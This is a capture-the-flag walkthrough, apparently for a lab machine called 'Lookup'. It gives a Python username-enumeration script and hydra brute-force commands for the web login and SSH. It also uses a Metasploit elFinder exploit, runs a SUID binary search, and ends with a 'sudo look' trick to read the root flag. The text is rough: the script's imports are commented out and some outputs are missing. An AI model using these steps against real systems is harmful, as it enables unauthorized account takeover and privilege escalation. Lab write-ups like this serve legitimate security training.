 # lookup
the first thing is doing an nmap scan, and found that there are some ports that are open

   
But if we look closely at the websiteâ€™s behavior, we can observe that it is possible to enumerate valid usernames based on the error we are getting from the website upon a failed login:

Trying admin:admin


Trying fig:admin


We can write a small python script that would help us enumerate valid usernames:

#import requests
#import multiprocessing

#target = 'http://lookup.thm/login.php'
#username_file = '/usr/share/wordlists/seclists/Usernames/Names/names.txt'

#def user_check(name):
    data = {"username": name, "password": "password"}
    try:
        response = requests.post(target, data=data, timeout=5)
        if "Wrong password" in response.text:
            print(f"User found: {name}")
    except requests.RequestException as e:
        print(f"[!] Error checking {name}: {e}")

if __name__ == "__main__":
    try:
        with open(username_file, 'r') as user_file:
            users = [line.strip() for line in user_file if line.strip()]

        # Use a pool with 30 worker processes
        with multiprocessing.Pool(processes=30) as pool:
            pool.map(user_check, users)

    except FileNotFoundError:
        print(f'Error: File path {username_file} does not exist.')



Using this scripts found  some users:

   

Now lets try a brute force for user jose using hydra:
 hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V

[80][http-post-form] host: lookup.thm   login: jose   password:

found one valid password for jose
Lets try login with user jose using the password that we found and we:
landed in something called “elFinder”. This looks like a file manager.

There are quite a few files here, and they all contain what seems to be passwords. Still, before we try another brute-force, let’s see if we can identify the version of elfinder:
Searching for known exploits for elfinder, we can see a metasploit module that targets versions before 2.1.48 :
We shall use metasploit
search elfinder 
then use 4
Lets see the available users : we see there is user root and think
There is a .passwords file here, which might be interesting, but we don’t have the permission to read it.

Let’s search for SUID binaries:

find / -perm /4000 2>/dev/null

![image](https://github.com/user-attachments/assets/6bec9d14-9965-47b6-9013-36054366e0d2)
Bingo, we tricked the binary into extracting “think” as the username, and we got back what seems to be a password list!
Let’s save that list to a file on our kali and try brute-forcing “think”

hydra -l think -P usr_think.txt ssh://lookup.thm

login using ssh
ssh think@lookup.thm   

to access root we use sudo look '' /root/root.txt



